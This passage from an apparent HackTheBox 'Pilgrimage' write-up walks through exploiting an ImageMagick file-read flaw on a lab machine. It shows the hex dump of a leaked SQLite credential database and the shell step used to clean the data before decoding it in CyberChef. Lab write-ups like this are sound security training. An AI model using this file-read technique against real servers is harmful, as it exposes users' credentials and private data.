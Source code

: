 With that exploit we can get every file on the system that the `magick` command has the rights to access.

Now remember the SQLite database `/var/db/pilgrimage`. It could contain interesting user information and credentials.

So we can create a new exploit for this file and upload it. The downloadable image contains a huge data block:
```
53514c69746520666f726d61742033001000010100402020000000550000000500000000
000000000000000400000004000000000000000000000001000000000000000000000000
000000000000000000000000000000000000000000000055002e4b910d0ff800040eba00
0f650fcd0eba0f3800000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000

[...]
```

We can copy that block into another file and trim the newlines:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$ tr -d "\n\r" < raw > database

┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$
```

Since this data is a bit long for the python command we could either write a script or just throw it into CyberChef. I choose the last one.

In CyberChef we can also upload a file and download the decoded version:
